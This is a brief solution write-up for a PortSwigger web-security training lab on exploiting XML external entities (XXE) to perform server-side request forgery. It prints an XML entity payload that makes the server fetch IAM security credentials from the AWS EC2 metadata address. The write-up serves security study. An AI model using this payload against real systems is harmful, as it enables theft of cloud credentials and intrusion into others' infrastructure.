


# Lab: Exploiting XXE to perform SSRF attacks

**Link**: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

**Solution**:

Is to know the place of metadata of AWS EC2 for their official documentation https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html
`http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>`
so the following code 
```xml
<!DOCTYPE foo [
<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin" >
]>
```

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>
